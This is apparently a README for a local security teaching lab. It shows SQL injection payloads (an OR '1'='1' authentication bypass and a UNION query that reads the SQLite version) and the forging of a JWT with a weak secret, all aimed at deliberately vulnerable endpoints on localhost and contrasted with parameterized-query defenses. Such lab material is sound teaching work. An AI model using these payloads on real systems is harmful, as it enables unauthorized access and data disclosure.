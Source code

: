    **Using curl:**
   ```bash
   curl -X POST http://localhost:1234/vuln-login \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"'"'"' OR '"'"'1'"'"'='"'"'1"}'
   ```

2. **Observe the attack:**
   - Check server console output - you'll see the constructed SQL:
     ```sql
     SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';
     ```
   - The condition `'1'='1'` is always true, bypassing authentication
   - The vulnerable endpoint returns the first user (admin) without checking the password

3. **Contrast with secure endpoint:**
   - Send the same request to `/login`
   - The secure endpoint uses parameterized queries:
     ```sql
     SELECT * FROM users WHERE username = ? AND password = ?;
     ```
   - The input is treated as literal data, not SQL code
   - Authentication fails correctly (password doesn't match)

### Attack Scenario 2: Data Extraction via UNION

1. **Send SQL UNION injection payload:**

   ```json
   {
     "username": "admin' UNION SELECT NULL, sqlite_version(), NULL--",
     "password": "anything"
   }
   ```

2. **Observe the attack:**
   - Constructed SQL becomes:
     ```sql
     SELECT * FROM users WHERE username = 'admin' UNION SELECT NULL, sqlite_version(), NULL--' AND password = 'anything';
     ```
   - Returns SQLite version instead of user data
   - Demonstrates information disclosure

## Demonstration: JWT Token Attacks

### Attack 1: Forge Token with Weak Secret

1. **Generate a forged token using forge_token.js:**
   ```bash
   node forge_token.js --alg weak --sub admin
   ```

2. **Use the forged token against vulnerable endpoint:**
   - In Postman, send GET request to `http://localhost:1234/vuln/admin-list`
   - Set Authorization header: `Bearer <forgedToken>`
   - Result: Vulnerable endpoint accepts it (returns user list)
